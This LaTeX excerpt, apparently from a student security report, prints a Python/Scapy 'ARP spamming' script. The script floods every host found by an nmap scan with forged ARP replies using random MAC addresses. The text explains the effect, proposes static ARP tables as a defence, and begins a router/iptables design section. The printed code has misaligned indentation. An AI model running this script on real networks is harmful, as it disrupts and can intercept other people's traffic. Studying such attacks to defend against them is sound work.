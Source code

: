 \begin{Code}{ARP Spamming}
def start(self):
   while self.running:
        
       # Talks to every machine and changes the ARP value
       # The list of hosts is obtained by an NMAP scan
       for host_dst in self.active_hosts:
           count = 0

           for host_src in self.active_hosts:
           if host_dst != host_src:
                 
           # Send the ARP packet - rnd_mac_addresses() creates
           # a fully random  MAC address
           self.send_arp_packet(host_dst, 
                                host_src, 
                                self.rnd_mac_addresses[count])
                                         
           count += 1



def send_arp_packet(self, dst, src, mac, op_code=2):
        
    # Construction of the ARP Packet
    pkt = ARP(op=2, 
              pdst=dst, 
              psrc=src, 
              hwdst="ff:ff:ff:ff:ff:ff", 
              hwsrc=mac)

    send(pkt, verbose=0)
					
\end{Code}
\begin{figure}[h]
	\caption{Code from the ArpSpamming.py script}
	\label{fig:ArpSpammingCode}
\end{figure}


Figure~\ref{fig:ArpSpammingCode} above shows the attack effecting the entire network. The scan finds all active hosts and returns them as a list that is then used as source and destination IP addresses that ultimately end up affecting the entire local networks ARP cache.

This attack is relatively easy to execute but can simply be prevented by issuing static ARP tables for each machine, with a few authenticated machines allowed to perform changes. This static table prevents unsolicited ARP replies from changing IP and MAC address combinations and also prevents ARP Spoofing from occurring on that network.


\subsection{Router Design}
The router is required to create an access point and allow access to the internet. Traffic will be routed through the router that is destined for other location, this will mean traffic will flow through the "Forward" section of the iptables map (Refer to Figure ~\ref{ref:iptables}). Therefore, a rule is required to catch any traffic from flowing into the machine. 

